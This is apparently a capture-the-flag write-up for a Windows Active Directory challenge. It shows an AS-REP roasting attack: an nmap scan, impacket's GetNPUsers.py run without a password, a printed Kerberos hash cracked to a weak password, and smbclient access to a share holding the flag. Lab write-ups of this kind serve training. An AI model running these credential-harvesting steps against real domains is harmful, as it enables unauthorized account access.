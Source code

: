 # Get a Ticket

## CATEGORY

Windows

## Challenge

We must find a way to access the shared folders configured on this server. I don't see anyway, but maybe you can figure it out...

300 points

## Hint(s)

None used.

## Solution

Running another deeper nmap scan gets us the following:

![image](../images/NMAPGDCLOCAL.png)

From here, we can see that the domain used for the Active Directory is gdc.local. We add gdc.local with the IP address to /etc/hosts, and test all users found in our earlier enumeration with GetNPUsers.py in impacket.

![image](../images/ADDGDCLOCAL.png)

From here, we finally find one user where we can get a password.

    python3 GetNPUsers.py gdc.local/liam.a -no-pass
    ...
    Impacket v0.9.23.dev1+20210528.195232.25c62f65 - Copyright 2020 SecureAuth Corporation

    [*] Getting TGT for liam.a

    $krb5asrep$23$liam.a@GDC.LOCAL:c96d5d7aca53e00b38e373b2db78bec2$9a63ed92e74065f71199f566ac6e7d8a34d3d82d96e67e6d9261c3b8fcd1343ca5b21c7db150797dee3703b461e50a44cbe2e17a04adfe97107c74254889d00e7e265a301145dd88d16628c4ed18a42b45ef1a0c70833862f4ca3f241f60699173a56c799f41b9bb57cd2a92896244e27e4feeff8f0e8cb5f34dd424cc252eefe39a71452c0c8164a8336a660165ea4e5e49db070fb62acc22f57a50b4bb2e8e3972a2e2dce6bb86cc948b66945ea47cfd2435c5054515fab97f43388f6f4694066cd1bd7ebe51b74e99dd1d27d09c02cd26777a61e51692f066043d3cc71ccf1e8e51435159

The above decrypts to p@ssw0rd, which we can use to get access to smb shares.

We run

    showmount -e IP ADDRESS

    smbclient \\\\gdc.local\\Mission2 --user liam.a

and get the flag.txt file.

## Flag

    CDDC21{4S_REP_R0A$T}
